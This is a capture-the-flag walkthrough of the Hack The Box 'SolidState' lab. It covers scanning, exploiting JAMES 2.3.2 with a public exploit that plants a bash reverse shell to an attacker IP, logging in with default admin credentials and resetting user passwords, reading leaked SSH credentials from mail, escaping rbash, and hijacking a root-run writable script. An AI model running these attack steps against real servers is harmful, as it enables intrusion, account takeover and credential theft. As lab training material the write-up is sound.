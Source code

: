 # SolidState
SolidState is a medium HTB lab that focuses on mail clients vulnerability, sensitive information disclosure and privilege escalation. In this walkthrough, we will go over the process of exploiting the services and gaining access to the root user.

### Reconnaissance
The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.

```
$ sudo nmap -p- -sV -sC 10.129.8.102

Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-27 19:22 GMT
Stats: 0:01:53 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 19:26 (0:02:34 remaining)
Nmap scan report for 10.129.8.102
Host is up (0.086s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 770084f578b9c7d354cf712e0d526d8b (RSA)
|   256 78b83af660190691f553921d3f48ed53 (ECDSA)
|_  256 e445e9ed074d7369435a12709dc4af76 (ED25519)
25/tcp   open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3?
119/tcp  open  nntp?
4555/tcp open  rsip?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 413.05 seconds
```

Found new email id `webadmin@solid-state-security.com` but that domain doesn't give any additional information.

From the nmap scan, we can see that the target machine is running ssh service on port 22, a web server on port 80, 110 for pop3 server and 119 nntp server. After some digging around, finally found the next to check out the port 110 and port 119.

```
$ telnet 10.129.8.102 110

+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 

$ telnet 10.129.8.102 119`.

Trying 10.129.8.102...
Connected to 10.129.8.102.
Escape character is '^]'.
list
200 solidstate NNTP Service Ready, posting permitted
215 list of newsgroups follows
org.apache.james.dev 0 0 y
org.apache.avalon.dev 0 0 y
org.apache.avalon.user 0 0 y
org.apache.james.user 0 0 y
```

### User

##### Web Attack

Searching online for public exploits. we can find two exploit for *JAMES POP3 Server 2.3.2* with `https://www.exploit-db.com/exploits/35513` and `https://www.exploit-db.com/exploits/50347`.
Using the exploit `50347`, to get a new user added as root for management.

```
$ python2.7 50347.py 10.129.8.102 10.10.14.119 4444

('[+]Payload Selected (see script for more options): ', '/bin/bash -i >& /dev/tcp/10.10.14.119/4444 0>&1')
('[+]Example netcat listener syntax to use after successful execution: nc -lvnp', '4444')
[+]Connecting to James Remote Administration Tool...
[+]Creating user...
[+]Connecting to James SMTP server...
[+]Sending payload...
[+]Done! Payload will be executed once somebody logs in (i.e. via SSH).
("[+]Don't forget to start a listener on port", '4444', 'before logging in!')
```

```
$ nc 10.129.8.102 4555

JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin
setpassword mindy pass
Password for mindy reset
```

##### Reading leak credentials
Even if no one logged in during the time, we can manual check out the server based on the user added to the server. We can now log-in as the user mindy with the new password and search of any sensitive emails available.

```
$ telnet 10.129.8.102 110

Trying 10.129.8.102...
Connected to 10.129.8.102.
Escape character is '^]'.
user mindy
pass pass
list
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
+OK
+OK Welcome mindy
+OK 2 1945
retr 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

##### Getting access as user

Based on these new credentials, we can login and get the flag.

```
$ ssh mindy@10.129.8.102
P@55W0rd1!2@

$ cat user.txt
~FLAG~
```

### Privilege Escalation

We can see that its a restricted shell. We can now look for binaries available to us.

```
mindy@solidstate:~$ cat bin/

cat  env  ls   
```

Tip for rbash Escape from https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html: 
The first thing I try when facing SSH into rbash is adding -t bash to the SSH connection command. This will run bash on connect instead of the assigned shell. It works here (though it does produce a busted prompt), and I an now run id and cd:

```
$ sshpass -p 'P@55W0rd1!2@' ssh mindy@10.129.8.102 -t bash
```
Investigating using pspy32, we can find that root is actually invoking the tmp.py file.

```
$ ./pspy32

2023/12/27 20:42:01 CMD: UID=0     PID=9545   | python /opt/tmp.py 
2023/12/27 20:42:01 CMD: UID=0     PID=9546   | sh -c rm -r /tmp/*  
```
You would find that /opt folder has some additional files which can help with escalation including the tmp.py file above. Also we have write access to this file.

```
$ ls -l /opt/

drwxr-xr-x 11 root root 4096 Aug 22  2017 james-2.3.2
-rwxrwxrwx  1 root root  105 Aug 22  2017 tmp.py
```

Updated the code of `tmp.py` to below.

```
$ cat tmp.py

#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ; cat /root/root.txt >> /home/mindy/dummy.txt;')
except:
     sys.exit()
```

Now wait for the script to run again and then we can get flag using `cat ~/dummy.txt`:
```
$ cat ~/dummy.txt
~FLAG~
```
